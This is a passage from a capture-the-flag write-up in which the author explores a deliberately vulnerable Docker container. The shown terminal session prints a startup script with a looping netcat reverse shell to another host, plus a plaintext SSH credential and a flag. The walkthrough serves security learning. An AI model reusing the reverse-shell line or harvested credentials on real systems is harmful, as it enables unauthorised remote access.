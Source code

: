 This really helped to bring the environment into focus for me. All the stuff we were hammering on via HTTP lived in a container; remember that username hint, `handsome_container`?

### Ubuntu / brave_edison

I started with this container, since I suspected it would be the most "complete" environment. Once I exec'd into the container, I started to get a clearer picture of what we were working with. I looked at the running processes and started poking things:

{{< highlight markdown >}}
hummingbirdscyber@vulnvm:~$ docker exec -it brave_edison /bin/bash
root@252fa8cb1646:/# cat /etc/init.d/port.sh 
#!/bin/bash

while [ 1 ];do nc 1afdd1f6b82c 7777 -e /bin/bash;sleep 5;done
root@252fa8cb1646:/# cat /etc/init.d/ftp.sh  
#!/bin/bash

/root/proftpd-1.3.3c/proftpd -n -d 5 -c /tmp/PFTEST/PFTEST.conf

root@252fa8cb1646:/# ps -ef 
UID         PID   PPID  C STIME TTY          TIME CMD
root          1      0  0 19:08 pts/0    00:00:00 /bin/bash
root         10      0  0 19:08 ?        00:00:00 /bin/bash /etc/init.d/port.sh
root         17      0  0 19:08 ?        00:00:00 /bin/bash /etc/init.d/ftp.sh
root         22     17  0 19:08 ?        00:00:00 proftpd: (accepting connections)
root       1289      0  0 20:00 pts/1    00:00:00 /bin/bash
root       1327     10  0 20:01 ?        00:00:00 sleep 5
root       1328   1289  0 20:01 pts/1    00:00:00 ps -ef
root@252fa8cb1646:/# 
root@252fa8cb1646:~# ls
flag  proftpd-1.3.3c  ssh_cred
root@252fa8cb1646:~# cat flag 
Wake Up!
root@252fa8cb1646:~# cat ssh_cred 
hummingbirdscyber:123456

root@252fa8cb1646:/# cat /tmp/PFTEST/PFTEST.xferlog 
Thu Feb 28 20:28:30 2019 0 ::ffff:172.18.0.3 78 /etc/init.d/ftp.sh b _ o r proftpd ftp 0 * c
Thu Feb 28 20:48:15 2019 0 ::ffff:172.18.0.3 16 /home/hint b _ o r proftpd ftp 0 * c
root@252fa8cb1646:/# ls /home/hint 
/home/hint
root@252fa8cb1646:/# cat /home/hint 
Startup Script?
root@252fa8cb1646:/# 
{{< / highlight >}}

This output made me start thinking that perhaps direct ssh was not the vulnerable machine's common ingress point, and that maybe I should not have used the visible username to my advantage to get a foothold. I also thought "why turn back now that I already have a shell?" a few seconds later.

### Wordpress / experimental_wordpress_1

Oh boy. With a name like that, this thing must be swiss cheese, right?
